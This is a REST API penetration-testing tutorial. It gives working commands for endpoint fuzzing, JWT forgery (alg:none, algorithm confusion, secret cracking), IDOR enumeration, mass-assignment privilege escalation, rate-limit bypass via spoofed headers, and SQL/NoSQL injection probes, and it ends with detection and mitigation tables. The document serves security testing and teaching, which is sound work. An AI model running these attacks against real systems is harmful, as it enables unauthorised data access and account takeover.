

# REST API Pentesting

> **REST API pentesting is the systematic process of probing RESTful web services for authentication flaws, authorization bypasses, injection vulnerabilities, and business logic errors using HTTP-level attacks.**

---

## 🧠 What Is It?

**Analogy:** REST API pentesting is like testing a bank's drive-through teller window. You try the obvious things (your own account), then you try to reach through the window (IDOR — ask for someone else's account), test if the teller checks your ID at all (missing auth), see if you can shout orders from a different car (rate limit bypass), and check if handing over extra cash triggers some unintended system behavior (mass assignment).

The key difference from traditional web app testing: there is **no HTML rendering** — just raw data. The attack surface is the **API contract** itself: endpoints, methods, parameters, headers, and tokens.

---

## 🏗️ How It Works

REST pentesting follows a systematic flow:

1. **Map the attack surface** — find every endpoint
2. **Understand authentication** — how tokens/keys work
3. **Test authorization** — can you access other users' data?
4. **Fuzz parameters** — find hidden fields, injection points
5. **Test business logic** — abuse the intended flows
6. **Escalate** — chain vulnerabilities for maximum impact

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Endpoint Discovery

The foundation of REST API pentesting is knowing what endpoints exist.

#### Source 1: Swagger / OpenAPI Spec Files

These files describe the entire API surface. Finding one is a jackpot.

```bash
# Common paths to try
/swagger-ui.html
/swagger-ui/index.html
/swagger/index.html
/api-docs
/api-docs/swagger.json
/openapi.json
/openapi.yaml
/swagger.json
/swagger.yaml
/v1/swagger.json
/v2/api-docs
/v3/api-docs
/api/v1/swagger.json
/api/swagger-ui.html
/docs/api
/documentation

# Fuzz for spec files
ffuf -w /usr/share/seclists/Discovery/Web-Content/swagger.txt \
  -u https://api.target.com/FUZZ \
  -mc 200 \
  -o swagger_discovery.json
```

#### Source 2: JavaScript File Analysis

Modern SPAs embed all API call patterns in `.js` files.

```bash
# Extract JS files from a page
curl -s https://target.com | grep -oP 'src="[^"]+\.js"' | cut -d'"' -f2

# Search JS files for API patterns
curl -s https://target.com/static/main.js | \
  grep -oP '(api|v[0-9]+)/[a-zA-Z0-9_/]+' | sort -u

# Automated: use getallurls + grep
gau target.com | grep '\.js$' | while read url; do
  curl -s "$url" | grep -oP '"(/api/[^"]+)"' | tr -d '"'
done | sort -u

# LinkFinder: extract endpoints from JS
python3 linkfinder.py -i https://target.com -d -o cli
```

#### Source 3: Mobile App Decompilation

```bash
# Android APK
apktool d target-app.apk -o decoded/
grep -r "https://api.target.com" decoded/ --include="*.xml" --include="*.smali"

# Better: use jadx for decompiled Java
jadx -d jadx_output/ target-app.apk
grep -r "api\." jadx_output/ --include="*.java" | grep -oP '"https?://[^"]+api[^"]*"'

# iOS IPA
unzip target.ipa -d ipa_extracted/
strings ipa_extracted/Payload/App.app/App | grep "https://api\."

# Runtime: Frida to hook HTTP calls
frida -U -l api_hook.js com.target.app
```

#### Source 4: kiterunner — Route Discovery

kiterunner uses real-world API route wordlists derived from actual API specs.

```bash
# Install
go install github.com/assetnote/kiterunner@latest

# Basic scan
kr scan https://api.target.com -w routes-large.kite

# With authentication
kr scan https://api.target.com \
  -w routes-large.kite \
  -H "Authorization: Bearer eyJhbGc..."

# With specific status codes
kr scan https://api.target.com \
  -w routes-large.kite \
  --fail-status-codes 400,401,404,500

# Scan with multiple wordlists
kr scan https://api.target.com \
  -w routes-large.kite \
  -w swagger-wordlist.txt \
  --max-connection-per-host 10

# Output results
kr scan https://api.target.com -w routes-large.kite -o results.json --format json
```

#### Source 5: ffuf — API Endpoint Fuzzing

```bash
# Basic endpoint fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt \
  -u https://api.target.com/FUZZ \
  -mc 200,201,204,400,403 \
  -o results.json

# Fuzz with auth header
ffuf -w wordlist.txt \
  -u https://api.target.com/api/v1/FUZZ \
  -H "Authorization: Bearer eyJhbGc..." \
  -mc 200,201,204,400,403

# Fuzz HTTP methods on known endpoint
ffuf -w <(echo -e "GET\nPOST\nPUT\nPATCH\nDELETE\nHEAD\nOPTIONS\nTRACE") \
  -u https://api.target.com/api/v1/users \
  -X FUZZ \
  -mc 200,201,204,405

# Fuzz parameter names
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -u "https://api.target.com/api/v1/users?FUZZ=test" \
  -mc 200

# Fuzz parameter values
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt \
  -u "https://api.target.com/api/v1/users?id=FUZZ" \
  -mc 200,500

# Fuzz JSON body fields
ffuf -w params_wordlist.txt \
  -u https://api.target.com/api/v1/users \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"FUZZ": "test"}' \
  -mc 200,201,400

# Version enumeration
ffuf -w <(seq 1 10 | sed 's/^/v/') \
  -u https://api.target.com/api/FUZZ/users \
  -mc 200,201,401,403
```

---

### HTTP Method Testing

```bash
# Check all methods on an endpoint
for METHOD in GET POST PUT PATCH DELETE HEAD OPTIONS TRACE CONNECT; do
  echo -n "$METHOD: "
  curl -s -o /dev/null -w "%{http_code}" -X $METHOD \
    -H "Authorization: Bearer eyJhbGc..." \
    https://api.target.com/api/v1/users/1234
  echo
done

# Check OPTIONS for allowed methods
curl -v -X OPTIONS https://api.target.com/api/v1/users
# Look for: Allow: GET, POST header

# HTTP method override attacks
# Some APIs respect these even if the method is blocked
curl -X POST https://api.target.com/api/v1/users/1234 \
  -H "X-HTTP-Method-Override: DELETE" \
  -H "Authorization: Bearer eyJhbGc..."

curl -X POST "https://api.target.com/api/v1/users/1234?_method=DELETE" \
  -H "Authorization: Bearer eyJhbGc..."

# TRACE — may reflect headers (XST attack vector)
curl -X TRACE https://api.target.com/api/v1/users \
  -H "Authorization: Bearer SECRET"
```

---

### JWT Attack Techniques

#### Attack 1: Algorithm Confusion (RS256 → HS256)

When an API uses RS256 (asymmetric), it signs with the **private key** and verifies with the **public key**. If you can make it use HS256 (symmetric), it will verify using the public key — which **you can get** from the JWKS endpoint.

```bash
# Step 1: Get the public key from JWKS endpoint
curl https://api.target.com/.well-known/jwks.json
# or
curl https://api.target.com/api/v1/.well-known/openid-configuration

# Step 2: Use jwt_tool for the attack
git clone https://github.com/ticarpi/jwt_tool
python3 jwt_tool.py <JWT> -X k -pk public_key.pem

# Step 3: Manually — decode JWT
echo "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9" | base64 -d

# Forge: change alg to HS256, sign with public key bytes
python3 -c "
import jwt, base64
pub_key = open('public.pem').read()
payload = {'sub': '1234', 'role': 'admin', 'iat': 9999999999}
forged = jwt.encode(payload, pub_key, algorithm='HS256')
print(forged)
"
```

#### Attack 2: `alg: none` — No Signature Verification

Some implementations accept JWTs with `alg: none` (no signature at all).

```bash
# Method 1: jwt_tool
python3 jwt_tool.py <JWT> -X a

# Method 2: Manual
python3 -c "
import base64, json
header = json.dumps({'alg': 'none', 'typ': 'JWT'}).encode()
payload = json.dumps({'sub': '1234', 'role': 'admin'}).encode()
h = base64.urlsafe_b64encode(header).rstrip(b'=').decode()
p = base64.urlsafe_b64encode(payload).rstrip(b'=').decode()
print(f'{h}.{p}.')  # Empty signature
"

# Test with Burp: replace Authorization header with forged token
# Also try: alg: None, ALG: NONE, aLg: nOnE (case sensitivity)
```

#### Attack 3: Weak Secret Brute Force

```bash
# hashcat — GPU cracking
hashcat -a 0 -m 16500 <JWT> /usr/share/wordlists/rockyou.txt

# john the ripper
john --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

# jwt_tool
python3 jwt_tool.py <JWT> -C -d /usr/share/wordlists/rockyou.txt

# If secret found (e.g., "secret123"):
python3 jwt_tool.py <JWT> -T  # Tamper mode
# Change role: "user" → "admin"
# Change sub: "1234" → "1" (admin user)
# Re-sign with found secret
```

---

### IDOR / BOLA Step-by-Step

**BOLA (Broken Object Level Authorization) = IDOR at the API level.** This is OWASP API1 — the #1 API vulnerability.

```bash
# Step 1: Find object references in requests
# Look in: URL path, query params, request body, response body
# Common forms: numeric IDs, UUIDs, usernames, hashes

# Step 2: Horizontal IDOR — same privilege, different user
# Account A: GET /api/v1/users/10001/profile
# Account B (attacker): GET /api/v1/users/10001/profile  ← access A's profile?

# Numeric enumeration
for ID in $(seq 10000 10010); do
  echo -n "ID $ID: "
  curl -s -o /dev/null -w "%{http_code}" \
    -H "Authorization: Bearer <USER_B_TOKEN>" \
    "https://api.target.com/api/v1/orders/$ID"
  echo
done

# Orders IDOR
curl -H "Authorization: Bearer <VICTIM_TOKEN>" \
  "https://api.target.com/api/v1/orders/98765"
# vs
curl -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  "https://api.target.com/api/v1/orders/98765"
# If same data → BOLA

# Invoices IDOR — common, high severity
curl -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  "https://api.target.com/api/v1/invoices/INV-2024-001337"

# Step 3: Vertical IDOR — access higher-privilege objects
# Regular user accessing admin endpoints
curl -H "Authorization: Bearer <USER_TOKEN>" \
  "https://api.target.com/api/v1/admin/users"

curl -H "Authorization: Bearer <USER_TOKEN>" \
  "https://api.target.com/api/v1/users/1/make-admin"

# Step 4: UUID-based IDOR
# UUIDs look random but may be leaked in other API responses
# 1. Register a user → get their UUID
# 2. Check if UUID appears in any other API responses
# 3. Gather UUIDs via: GET /api/v1/users (listing endpoint)
#    or via activity feeds, logs, shared resources

# Automate with Autorize (Burp extension):
# 1. Log in as User A → browse all functionality → capture all requests
# 2. Autorize replaces Authorization header with User B's token
# 3. Red = User B gets same response → BOLA!

# Step 5: IDOR in non-obvious places
# File downloads
curl -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  "https://api.target.com/api/v1/documents/doc-00123/download"

# Profile pictures
curl "https://api.target.com/api/v1/users/1234/avatar"

# Password reset tokens
curl "https://api.target.com/api/v1/auth/reset/TOKEN123"

# Export endpoints
curl -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  "https://api.target.com/api/v1/reports/export/report-5678"
```

---

### Mass Assignment Attacks

APIs may automatically bind request body fields to database model fields, including **undocumented privileged fields**.

```bash
# Normal registration request
curl -X POST https://api.target.com/api/v1/register \
  -H "Content-Type: application/json" \
  -d '{"username": "attacker", "password": "P@ssw0rd"}'
# Response: {"id": 999, "username": "attacker", "isAdmin": false}

# Mass assignment attack — add isAdmin
curl -X POST https://api.target.com/api/v1/register \
  -H "Content-Type: application/json" \
  -d '{"username": "attacker", "password": "P@ssw0rd", "isAdmin": true}'
# If vulnerable response: {"id": 999, "username": "attacker", "isAdmin": true}

# PATCH endpoint — update profile
curl -X PATCH https://api.target.com/api/v1/users/999 \
  -H "Authorization: Bearer <TOKEN>" \
  -H "Content-Type: application/json" \
  -d '{"email": "new@email.com", "role": "admin", "balance": 999999}'

# PUT endpoint — full replace, include extra fields
curl -X PUT https://api.target.com/api/v1/users/999 \
  -H "Authorization: Bearer <TOKEN>" \
  -H "Content-Type: application/json" \
  -d '{
    "username": "attacker",
    "email": "attacker@evil.com",
    "password": "P@ssw0rd",
    "role": "admin",
    "isAdmin": true,
    "accountType": "premium",
    "credits": 99999,
    "emailVerified": true,
    "twoFactorEnabled": false
  }'

# Discover hidden fields:
# 1. Read the response — it may show fields you didn't send
# 2. Try sending every field you see in responses
# 3. Use Param Miner (Burp) to find hidden parameters
# 4. Check JS files for field names
# 5. Look at API documentation for "read-only" note (they're trying to hide these)

# Node.js/Express example of vulnerable code (context for POC):
# User.create(req.body)  ← merges ALL body fields into model
```

---

### Rate Limit Bypass

```bash
# Baseline: find when you get blocked
for i in $(seq 1 20); do
  curl -s -o /dev/null -w "Attempt $i: %{http_code}\n" \
    -X POST https://api.target.com/api/v1/auth/login \
    -H "Content-Type: application/json" \
    -d '{"username": "admin", "password": "wrong"}'
done

# Bypass 1: X-Forwarded-For IP rotation
for i in $(seq 1 100); do
  curl -s -o /dev/null -w "Attempt $i: %{http_code}\n" \
    -X POST https://api.target.com/api/v1/auth/login \
    -H "X-Forwarded-For: 192.168.1.$i" \
    -H "Content-Type: application/json" \
    -d '{"username": "admin", "password": "wrong"}'
done

# Bypass 2: Other forwarding headers (try all)
# X-Originating-IP: 1.2.3.4
# X-Remote-IP: 1.2.3.4
# X-Remote-Addr: 1.2.3.4
# X-Client-IP: 1.2.3.4
# X-Real-IP: 1.2.3.4
# True-Client-IP: 1.2.3.4
# CF-Connecting-IP: 1.2.3.4

# Bypass 3: Null byte / encoding tricks in username
# "admin" → "admin " → "admin\0" → "ADMIN" → " admin"
for USER in "admin" "admin " "admin	" "ADMIN" " admin" "admin%00" "admin%0a"; do
  echo -n "User '$USER': "
  curl -s -o /dev/null -w "%{http_code}\n" \
    -X POST https://api.target.com/api/v1/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"username\": \"$USER\", \"password\": \"wrong\"}"
done

# Bypass 4: User-Agent rotation
# Tools: ffuf -H "User-Agent: FUZZ" -w user-agents.txt

# Check if any limit: test POST vs GET vs different endpoints
```

---

### Error Message Analysis

```bash
# Send malformed input to trigger verbose errors
# Array instead of string
curl -X POST https://api.target.com/api/v1/users \
  -H "Content-Type: application/json" \
  -d '{"username": ["admin", "user"], "password": "test"}'

# SQL injection probe (look for DB errors in response)
curl "https://api.target.com/api/v1/users?id=1'"
curl "https://api.target.com/api/v1/users?id=1 AND 1=1--"

# NoSQL probe
curl -X POST https://api.target.com/api/v1/users/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$gt": ""}, "password": {"$gt": ""}}'

# Very long input (buffer overflows, truncation errors)
python3 -c "print('A'*10000)" | xargs -I{} curl "https://api.target.com/api/v1/users?name={}"

# Type confusion (integer → string → boolean)
curl -X POST https://api.target.com/api/v1/users/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": true}'

curl -X POST https://api.target.com/api/v1/users/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": null}'

# Errors to look for in responses:
# - Stack traces (Java, Python, Node.js)
# - Database names/table names
# - Internal hostnames/IPs
# - File system paths
# - Software versions
# - Third-party service names
```

---

## 💥 Exploitation Step-by-Step

### Chaining API Vulnerabilities — Full Attack Chain

**Scenario:** Bug bounty target — e-commerce API

```bash
# Step 1: Discover API spec
curl https://api.shop.com/api-docs/swagger.json -o spec.json
jq '.paths | keys[]' spec.json

# Step 2: Register attacker account
curl -X POST https://api.shop.com/api/v1/auth/register \
  -H "Content-Type: application/json" \
  -d '{"email": "attacker@evil.com", "password": "P@ssw0rd123"}' \
  -c cookies.txt

# Step 3: Login, get JWT
TOKEN=$(curl -s -X POST https://api.shop.com/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email": "attacker@evil.com", "password": "P@ssw0rd123"}' \
  | jq -r '.access_token')

# Step 4: Discover orders — IDOR
curl -H "Authorization: Bearer $TOKEN" \
  https://api.shop.com/api/v1/orders/1

# Step 5: Enumerate orders (different user's)
for ID in $(seq 100 200); do
  RESPONSE=$(curl -s -H "Authorization: Bearer $TOKEN" \
    "https://api.shop.com/api/v1/orders/$ID")
  echo "$ID: $(echo $RESPONSE | jq -r '.user_email // "not found"')"
done

# Step 6: Update profile — mass assignment to get admin
curl -X PATCH https://api.shop.com/api/v1/users/me \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"name": "Attacker", "isAdmin": true, "role": "admin"}'

# Step 7: Access admin endpoints
curl -H "Authorization: Bearer $TOKEN" \
  https://api.shop.com/api/v1/admin/users
```

---

## 🛠️ Tools

### kiterunner — Full Guide

```bash
# Install
go install github.com/assetnote/kiterunner@latest

# Download wordlists
wget https://wordlists-cdn.assetnote.io/data/kiterunner/routes-large.kite.tar.gz
tar -xzf routes-large.kite.tar.gz

# Basic scan
kr scan https://api.target.com -w routes-large.kite

# Scan with auth
kr scan https://api.target.com \
  -w routes-large.kite \
  -H "Authorization: Bearer eyJhbGc..."

# Scan multiple hosts
kr scan targets.txt -w routes-large.kite

# Replay found routes in Burp
kr scan https://api.target.com \
  -w routes-large.kite \
  --proxy http://127.0.0.1:8080

# High-speed scan
kr scan https://api.target.com \
  -w routes-large.kite \
  --max-connection-per-host 50 \
  --delay 0
```

### mitmproxy — API Traffic Analysis

```bash
# Start mitmproxy
mitmproxy --mode transparent --ssl-insecure -p 8080

# mitmdump — log all API traffic to file
mitmdump -w api_traffic.pcap --mode transparent -p 8080

# Filter only API calls
mitmdump -w api.log \
  --mode transparent \
  -p 8080 \
  --filter '~u /api/'

# Replay captured API calls
mitmdump -r api.log --flow-detail 3

# Modify requests on the fly with Python
cat > modify.py << 'EOF'
from mitmproxy import http

def request(flow: http.HTTPFlow):
    if "/api/v1/users/" in flow.request.pretty_url:
        # Change user ID in URL
        flow.request.path = flow.request.path.replace("/users/1234", "/users/5678")
EOF
mitmproxy -s modify.py
```

### restler-fuzzer (Microsoft) — Automated REST API Fuzzing

```bash
# Install
git clone https://github.com/microsoft/restler-fuzzer
cd restler-fuzzer && python3 restler/build_config.py

# Compile from Swagger spec
./restler compile --api_spec swagger.json

# Fuzz
./restler fuzz \
  --grammar_file Compile/grammar.py \
  --dictionary_file Compile/dict.json \
  --settings restler_settings.json \
  --no_ssl

# Test mode (quick check)
./restler test \
  --grammar_file Compile/grammar.py \
  --dictionary_file Compile/dict.json \
  --settings restler_settings.json
```

---

## 🔍 Detection

| Attack | Detection Signal |
|---|---|
| Endpoint fuzzing (ffuf/kiterunner) | High 404 rate from single IP; large request volume in short time |
| IDOR/BOLA | Sequential ID access patterns; user A accessing user B resources |
| JWT none algorithm | `alg: none` in JWT header |
| Mass assignment | Request body contains fields not in UI schema |
| Rate limit bypass | Rotating X-Forwarded-For values; same action from many "IPs" |
| Method override | POST requests with `X-HTTP-Method-Override` header |
| Brute force | Many 401s; slow requests (password hashing timing) |

---

## 🛡️ Mitigation

| Vulnerability | Mitigation |
|---|---|
| BOLA/IDOR | Check ownership server-side on every object access; use indirect references |
| Mass Assignment | Allowlist accepted fields; use DTOs; never `req.body` directly into model |
| JWT algorithm confusion | Pin expected algorithm server-side; never accept `alg: none` |
| Weak JWT secret | RS256 with 2048-bit key minimum; rotate keys |
| Rate limiting | Per-user, per-IP, per-action limits; CAPTCHA after threshold |
| Hidden endpoints | API gateway to manage all routes; remove debug endpoints in prod |
| Verbose errors | Generic error messages; log detail server-side only |
| Method override | Disable `X-HTTP-Method-Override`; ignore `_method` param |

---

## 📚 References

- [OWASP API Security — BOLA](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/)
- [PortSwigger — API Testing](https://portswigger.net/web-security/api-testing)
- [HackTricks — JWT Attacks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
- [jwt_tool Wiki](https://github.com/ticarpi/jwt_tool/wiki)
- [Assetnote — kiterunner](https://github.com/assetnote/kiterunner)
- [CVE-2021-27582](https://nvd.nist.gov/vuln/detail/CVE-2021-27582) — OAuth authorization bypass
- [CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186) — REST API file upload bypass
- [PayloadsAllTheThings — IDOR](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References)
- [API Security Weekly Newsletter](https://apisecurity.io/)
- [Awesome API Security](https://github.com/arainho/awesome-api-security)
